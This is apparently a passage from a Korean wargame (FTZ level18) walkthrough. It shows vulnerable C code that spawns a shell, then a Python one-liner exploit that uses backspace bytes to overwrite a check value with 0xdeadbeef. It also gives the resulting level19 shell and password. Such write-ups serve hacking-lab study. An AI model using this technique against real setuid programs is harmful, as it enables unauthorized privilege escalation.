 ```c
          if(select(FD_SETSIZE, &fds, NULL, NULL, NULL) >= 1)
            {
              if(FD_ISSET(fileno(stdin),&fds))
                {
                  read(fileno(stdin),&x,1);
                  switch(x)
                    {
                      case '\r':
                      case '\n':
                        printf("\a");
                        break;
                      case 0x08:
                        count--;
                        printf("\b \b");
                        break;
                      default:
                        string[count] = x;
                        count++;
                        break;
                    }
                }
            }
        }
    }
}

void shellout(void)
{
  setreuid(3099,3099);
  execl("/bin/sh","sh",NULL);
}
```
### 3. gdb attackme
### 4. exploit code

0xdeadbeef
(python -c 'print "\x08"*4+"\xef\xbe\xad\xde"';cat) | ./attackme
id
uid=3099(level19) gid=3098(level18) groups=3098(level18)
my-pass
'xterm-256color': unknown terminal type.
Level19 Password is "swimming in pink".

18번은 소스코드를 읽고 재 확인 (너무 뽀록으로 품)
0x08을 이용하여 4바이트 뒤로 이동 후 에 deadbeef를 덮어 씌우는 방법이다...

## Level19

### 1. Directory info
-rwsr-x---    1 level20  level19     13615  3월  8  2003 attackme
